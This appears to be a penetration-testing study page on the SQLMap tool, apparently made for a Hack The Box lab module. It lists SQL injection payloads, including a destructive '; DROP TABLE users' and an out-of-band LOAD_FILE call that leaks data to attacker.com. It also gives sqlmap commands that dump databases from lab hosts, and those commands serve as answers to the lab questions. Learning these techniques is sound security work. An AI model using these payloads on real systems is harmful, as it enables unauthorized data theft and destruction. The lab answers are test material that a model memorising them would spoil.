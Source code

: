 # 🐡 SQLMap Essentials

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

We can install it the following way:

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

The default techniques that are used are `BEUSTQ:`

* `B`: Boolean-based blind
* `E`: Error-based
* `U`: Union query-based
* `S`: Stacked queries
* `T`: Time-based blind
* `Q`: Inline queries

***

### Different types of SQLI

#### Boolean-based blind SQL Injection

```sql
AND 1=1
```

It is exploited through the differentiation of `TRUE` from `FALSE` query results

The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`.

#### Error-based SQL Injection

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.

#### UNION query-based

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.

the attacker can get additional results from the injected statements within the page response itself.

#### Stacked queries

```sql
; DROP TABLE users
```

This works by injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default)

#### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

#### Inline queries

```sql
SELECT (SELECT @@version) from
```

#### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi).

### Getting Started

To get all options and switches&#x20;

```shell-session
sqlmap -hh
```

Basic command:

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

{% hint style="info" %}
Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}

{% hint style="info" %}
#### Different messages usually found during a scan of SQLMap ->

https://academy.hackthebox.com/module/58/section/696
{% endhint %}

To set up an SQLMap request against the specific target is by utilizing `Copy as cURL`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

`GET` parameters are provided with the usage of option `-u`/`--url`

`POST` data, the `--data` flag can be used

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If we want to use an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```

Another way of launching sqlmap is with a burp request:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we copy and paste the request in a txt file and call it in our command:

```shell-session
sqlmap -r req.txt
```

if we have a case where we have a session cookie we need to specify it:

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

**Questions**

\#1&#x20;

```
sqlmap 'http://83.136.250.45:54294/case2.php' --data 'id=1' --batch --dump
```

\#2&#x20;

```
sqlmap 'http://83.136.250.45:54294/case3.php' --cookie='id=1*' --dump --batch
```

\#3&#x20;

```
sqlmap -r req2.txt --dump --batch
```

### Handling SQLMap Errors

`--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run

`-t` option stores the whole traffic content to an output file

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

`-v` option, to raise the verbosity level of the console output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Prefix & Suffix

To go faster after manual enumeration we can use  `--prefix` and `--suffix`

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in a query like this:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Questions**

**#5**&#x20;

```
sqlmap http://94.237.59.231:59227/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```

\#6&#x20;

```
sqlmap http://94.237.59.231:59227/case6.php?col=id --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
```

\#7&#x20;

```
sqlmap http://94.237.59.231:59227/case7.php?id=1 --union-cols=5 --dump --no-cast
```
